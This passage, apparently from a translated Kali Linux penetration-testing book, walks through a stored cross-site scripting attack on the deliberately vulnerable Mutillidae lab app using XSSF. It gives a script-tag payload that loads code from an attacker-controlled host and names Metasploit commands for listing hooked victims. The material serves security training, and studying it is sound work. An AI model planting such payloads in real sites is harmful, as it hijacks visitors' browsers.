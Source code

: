     我们将使用易受攻击的 web 应用程序**Mutillidae**来演示 XSSF。Mutillidae 是 Metasploitable 项目的一部分，可从[下载 http://sourceforge.net/projects/metasploitable/files/Metasploitable2/](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/) 。有关安装此易受攻击目标的注意事项，请参阅[附录](12.html "Appendix A. Installing Kali Linux")*安装 Kali Linux*。

6.  Once Mutillidae is opened, navigate to the blog page; this page is known to be vulnerable to XSS (you can use a vulnerability scanning tool against Mutillidae to identify other potential insertion points).

    若要对目标客户端发起攻击，请不要在博客中输入常规帖子。而是输入包含目标 URL 和端口的脚本元素：

    ```
    <script src="http://192.168.0.104:8888/loop?interval=5"></script>
    ```

    以下屏幕截图显示了攻击代码在目标网站博客页面上的位置。

    ![The Cross-Site Scripting Framework](img/3121OS_11_09.jpg)

    输入此信息后，受害者点击**保存博客条目**，其系统将被破坏。从 Metasploit 框架控制台，测试人员可以使用`xssf_victims`和`xssf_information`命令获取每个受害者的信息。在执行`xssf_victims`命令时，将显示每个受害者的信息，如以下屏幕截图所示：

    ![The Cross-Site Scripting Framework](img/3121OS_11_10.jpg)
